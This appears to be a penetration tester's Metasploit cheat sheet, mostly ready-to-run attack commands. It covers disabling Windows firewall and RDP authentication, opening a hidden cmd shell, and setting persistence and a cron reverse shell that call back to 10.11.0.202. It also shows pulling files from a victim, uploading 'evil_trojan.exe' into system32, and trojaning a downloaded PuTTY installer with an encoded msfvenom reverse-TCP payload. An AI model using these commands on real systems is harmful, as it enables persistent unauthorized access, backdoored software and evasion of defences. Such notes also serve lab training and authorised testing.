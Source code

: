 prefix:mak

#### new remote deskop firewall disable commands

https://support.microsoft.com/en-us/help/947709/how-to-use-the-netsh-advfirewall-firewall-context-instead-of-the-netsh-firewall-context-to-control-windows-firewall-behavior-in-windows-server-2008-and-in-windows-vista

diable network level authentication with powershell ** watch out for """ ticks in scripts here

https://www.petri.com/disable-remote-desktop-network-level-authentication-using-powershell


#### Metepreter to cmd on windows

execute -f cmd.exe -i -H

#### Persistance for windows

run persistence -U -i 5 -p 443 -r 10.11.0.202

run persistence -U -i 5 -p 666 -r 10.11.0.202

set  LPORT 443

exploit

persistance for linux

use exploit/linux/local/cron_persistence

set session 1

set payload cmd/unix/reverse_perl

set LHOST 10.11.0.202

set LPORT 444

run


#### download

meterpreter >  download c:\\boot.ini

#### upload

meterpreter > upload evil_trojan.exe c:\\windows\\system32

#### backdoor a file:

wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe


----------------------------------------------------------------------------
'''''''''''''''''''''''''''''''''' PRIVESC '''''''''''''''''''''''''''''''''
-----------------------------------------------------------------------------
